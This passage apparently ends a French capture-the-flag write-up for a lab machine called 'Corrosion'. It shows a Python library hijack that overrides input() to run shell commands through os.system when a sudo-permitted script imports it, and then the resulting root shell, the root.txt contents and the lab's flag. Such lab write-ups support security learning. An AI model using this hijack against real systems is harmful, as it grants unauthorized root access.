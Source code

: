 J'aurais pu faire exécuter une simple commande j'ai j'ai choisi de hooker l'appel à *input()*, ça fait plus classe :)  

```python
import os
from sys import exit

def b64encode(b):
  return b

real_input = __builtins__["input"]

def input(s):
  cmd = real_input(s)
  os.system(cmd.strip())
  exit()

__builtins__["input"] = input
```

```plain
randy@corrosion:~$ sudo /usr/bin/python3.8 /home/randy/randombase64.py
Enter your string: id
uid=0(root) gid=0(root) groups=0(root)
randy@corrosion:~$ sudo /usr/bin/python3.8 /home/randy/randombase64.py
Enter your string: bash -p
root@corrosion:/home/randy# cd /root
root@corrosion:~# ls
root.txt  snap
root@corrosion:~# cat root.txt
2fdbf8d4f894292361d6c72c8e833a4b
```

That's all folks!  


*Published December 26 2021 at 11 33*